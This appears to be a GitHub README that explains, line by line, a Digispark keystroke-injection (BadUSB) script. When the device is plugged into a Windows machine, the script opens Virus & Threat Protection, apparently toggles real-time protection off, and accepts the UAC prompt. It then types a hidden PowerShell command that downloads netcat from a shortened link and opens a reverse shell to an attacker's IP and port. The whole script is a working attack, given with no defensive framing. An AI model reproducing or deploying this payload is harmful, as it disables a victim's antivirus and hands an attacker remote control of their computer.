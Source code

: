 <h2 color="#00979C"> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code color="#00979C">void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
 <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code color="#00979C">void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




